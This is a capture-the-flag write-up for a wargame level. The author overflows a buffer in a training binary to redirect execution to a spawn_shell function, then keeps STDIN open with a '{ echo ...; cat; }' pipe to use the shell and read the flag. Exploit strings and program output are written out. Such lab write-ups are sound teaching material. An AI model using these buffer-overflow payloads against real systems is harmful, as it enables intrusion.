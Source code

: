 ```
```

So with this now in mind, we just have to run the program and input the address of the `spawn_shell` method.

Finding the buffer was as easy as spamming as many 'A's until we got it into the return address, using python.

```
level9@gracker:~$ echo -n "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\{\x85\x04\x08" | /matrix/level9/level9 
Hello, I'm the MCP (Master Control Program). I'm here to protect the TRON system.
What are you doing here? Are you a user or a program?
Where did you come from? Proof your identity:
Return to: 0x804857b
Welcome to Arjia City!
zsh: done                          echo -n "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\{\x85\x04\x08" | 
zsh: illegal hardware instruction  /matrix/level9/level9
```

This is odd... We are unable to access it. Seems like this is not completely the case as Level 6 as it said. Also it seemed to have a certain restriction on the hex value of 0x7b, which meant I had to manually add it as `\{`, which allowed me to have it as a hex value. It seemed it be a minor format string.

We got into Arjia City, but not completely. Let's read that description again.


```
It looks like that STDIN closes
after he uses `echo` to construct the exploit string, and thus loosing
access to the shell. Can you show him a trick how he can keep STDIN
alive so that he can use the spawned shell?
```

It seems like this is the point of the challenge. After doing research, [I found our solution](https://unix.stackexchange.com/questions/620561/keep-pipe-open-stdin-in-connected-to-terminal-after-pipe).

After running this command:

`{ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\{\x85\x04\x08"; cat; } | /matrix/level9/level9`

I am able to access the flag!


## More to come soon!